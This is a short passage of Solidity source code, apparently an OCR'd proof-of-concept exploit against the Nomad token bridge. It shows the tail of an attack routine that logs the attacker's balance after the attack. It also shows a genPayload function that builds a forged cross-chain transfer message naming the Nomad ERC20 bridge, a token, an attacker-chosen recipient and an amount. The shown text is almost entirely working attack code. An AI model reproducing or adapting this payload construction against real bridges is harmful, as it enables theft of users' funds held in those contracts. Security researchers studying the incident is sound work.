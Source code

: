 ```solidity
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),          // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),      // Recipient of the transfer
           uint256(amount),                  // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```

